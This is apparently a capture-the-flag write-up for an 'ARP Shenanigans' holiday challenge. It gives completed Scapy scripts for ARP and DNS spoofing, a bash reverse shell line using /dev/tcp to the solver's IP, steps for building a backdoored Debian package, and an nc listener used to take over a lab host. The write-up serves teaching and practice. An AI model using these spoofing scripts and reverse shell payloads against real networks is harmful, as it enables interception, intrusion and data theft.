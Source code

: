 # ARP Shenanigans

## Objective

> Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using `ARP`. Retrieve the document at `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. Who recused herself from the vote described on the document?

`Difficulty: 4/5`

## Alabaster Snowball's dialog:
> Those skills might be useful to you later on!<br>
> I've been trying those skills out myself on this other terminal.<br>
> I'm pretty sure I can use tcpdump to sniff some packets.<br>
> Then I'm going to try a machine-in-the-middle attack.<br>
> Next, I'll spoof a `DNS` response to point the host to my terminal.<br>
> Then I want to respond to its `HTTP` request with something I'll cook up.<br>
> I'm almost there, but I can't quite get it. I could use some help!<br>

> Oh, I see the Scapy Present Packet Prepper has already been completed!<br>
> Now you can help me get access to this machine.<br>
> It seems that some interloper here at the North Pole has taken control of the host.<br>
> We need to regain access to some important documents associated with Kringle Castle.<br>
> Maybe we should try a machine-in-the-middle attack?<br>
> That could give us access to manipulate `DNS` responses.<br>
> But we'll still need to cook up something to change the `HTTP` response.<br>
> I'm sure glad you're here Santa.<br>


## Hints
> Jack Frost must have gotten malware on our host at `10.6.6.35` because we can no longer access it. Try sniffing the `eth0` interface using `tcpdump -nni eth0` to see if you can view any traffic from that host.<br>
> The host is performing an `ARP` request. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in `/home/guest/scripts`.<br>
> Hmmm, looks like the host does a `DNS` request after you successfully do an `ARP` spoof. Let's return a `DNS` response resolving the request to our `IP`.<br>
> The malware on the host does an `HTTP` request for a `.deb` package. Maybe we can get command line access by sending it a [command in a customized .deb file](http://www.wannescolman.be/?p=98)<br>

## Solution

!!! note
    Complete the terminal **Scapy Prepper** for hints on how to solve this objective.

From the hints, we find out a host on the Castle's network has been compromised. We also learn
that there will be a multi-step process to gain access to the host:

- Respond to the ARP request from the compromised host.
- Respond to the DNS request from the compromised host.
- Provide a package file to the compromised host with a backdoor script.
- Gain shell access to the host and retrieve the document.

### ARP response

The compromised host is requesting the MAC address of `10.6.6.53`. We have a template scapy
script in `scripts/arp_resp.py`, but some of the fields in the response need to be filled out:

```python
ether_resp = Ether(dst="SOMEMACHERE", type=0x806, src="SOMEMACHERE")

arp_response = ARP(pdst="SOMEMACHERE")
arp_response.op = 99999
arp_response.plen = 99999
arp_response.hwlen = 99999
arp_response.ptype = 99999
arp_response.hwtype = 99999

arp_response.hwsrc = "SOMEVALUEHERE"
arp_response.psrc = "SOMEVALUEHERE"
arp_response.hwdst = "SOMEVALUEHERE"
arp_response.pdst = "SOMEVALUEHERE"
```

We need to respond to the ARP request and tell the compromised host to direct any subsequent
traffic to us. Using this [guide to ARP packets](https://www.practicalnetworking.net/series/arp/traditional-arp/), we can fill in the appropriate sections in the response packets:

```python
ether_resp = Ether(dst=packet[Ether].src, type=0x806, src=macaddr)

arp_response = ARP(pdst=packet[ARP].psrc)
arp_response.op = "is-at"
arp_response.plen = packet[ARP].plen
arp_response.hwlen = packet[ARP].hwlen
arp_response.ptype = packet[ARP].ptype
arp_response.hwtype = packet[ARP].hwtype

arp_response.hwsrc = macaddr
arp_response.psrc = packet[ARP].pdst
arp_response.hwdst = packet[Ether].src
arp_response.pdst = packet[ARP].psrc
```

And we were successful:

![Successful ARP response](../img/9/o9-1.png)

We can see the next piece of data we need to spoof: a DNS lookup for `ftp.osuosl.org`. There's
a sample script in `scripts/dns_resp.py`, with some sections we need to change:

```python
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.1.10"

def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src="00:00:00:00:00:00", dst="00:00:00:00:00:00")   # need to replace mac addresses
    ip  = IP(dst="0.0.0.0", src="0.0.0.0")                          # need to replace IP addresses
    udp = UDP(dport=99999, sport=99999)                             # need to replace ports
    dns = DNS(
        # MISSING DNS RESPONSE LAYER VALUES
    )
```

DNS packets are complex to create, and can be
tricky to get right. A couple of helpful guides are at
[here](https://www2.cs.duke.edu/courses/fall16/compsci356/DNS/DNS-primer.pdf) and
[here](http://lost-and-found-narihiro.blogspot.com/2015/02/python-scapy-send-fake-dns-responses.html). With much trial and error, we can build a response packet with the following code:

```python
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53"

def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src=packet[Ether].dst, dst=packet[Ether].src)
    ip  = IP(dst=packet[IP].src, src=packet[IP].dst)
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)
    dns = DNS(
            id=packet[DNS].id,
            qr=1, ra=1, rd=1, opcode="QUERY", rcode="ok", qdcount=1, ancount=1, qd=packet[DNS].qd,
            an=DNSRR(rrname=packet[DNS].qd.qname, type='A', rclass='IN', ttl=82159, rdata=ipaddr),
    )
```

A small shell script helps manage starting the spoof scripts. The DNS spoof script is started first,
to be ready when the ARP spoof fires:

```bash
#!/bin/sh

python3 dns_resp.py &
python3 arp_resp.py &
```

We can see the ARP request & response, then the DNS query and response:

![ARP & DNS responses](../img/9/o9-2.png)

Now we see a new request from the compromised host: an attempted HTTP request, which
failed as there was no web server listening on port `80`:

![HTTP request](../img/9/o9-3.png)

We can start one with `python3 -m http.server 80`, run our shell script again, and
look at the web server output to see what the compromised host is requesting:

![HTTP log](../img/9/o9-4.png)

The compromised host is requesting a Debian package
`/pub/jfrost/backdoor/suriv_amd64.deb`.  We can create a package with a backdoor in it,
serve it up with the correct path, and receive a remote shell when the compromised host
installs the package. There are a number of Debian packages in the `debs` directory
in the terminal, but I found it easier to use a tool to create an empty package
with just a reverse shell backdoor instead of modifying one of the provided ones.
The tool I used is [Derbie](https://github.com/mthbernardes/Derbie). After cloning
the GitHub repository on your local machine and installing the dependencies, create
a smiple reverse shell payload script:

```bash
#!/bin/bash

0<&196;exec 196<>/dev/tcp/10.6.0.3/10444; sh <&196 >&196 2>&196
```

Replace `10.6.0.3` with the IP address of the host in your terminal.

Next, generate the package with `python3 Derbie.py suriv payload.sh`:

![Malicious package](../img/9/o9-5.png)

We now need to get the package from our local machine into the **`ARP Spoof`**
terminal. As the terminal can't reach outside it's network, the best method
of transferring the package is copy/paste. On the local machine run `base64
debs/suriv_43_all.deb`, copy the base64-encoded text, and in the terminal run `base64
-d > suriv_amd64.deb`, then paste the text.

For the `HTTP GET` request to work, we need to make sure we have the correct path set up.
Run `mkdir -p pub/jfrost/backdoor/`, move the package file to that directory, then re-start
the Python HTTP server. Finally, add a listener to the shell script:

```bash
#!/bin/sh

python3 dns_resp.py &
python3 arp_resp.py &
nc -vnlp 10444
```

Run the script, and wait for the reverse shell from the compromised host. Once we see
the `connect to ...` message from `nc`, we know the reverse shell was successful:

![Successful reverse shell](../img/9/o9-6.png)

We can use the same copy/paste method to transfer the `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` file out of the terminal and to our local machine:

![Grab the file](../img/9/o9-7.png)

And do the reverse on our local machine: `base64 -d | gunzip >
NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. Reading the relatively mundane meeting
minutes from the North Pole Land Use board, we see that **`Tanta Kringle`** recused
herself from voting on the Kringle Castle expansion plans.

## Answer
`Tanta Kringle`

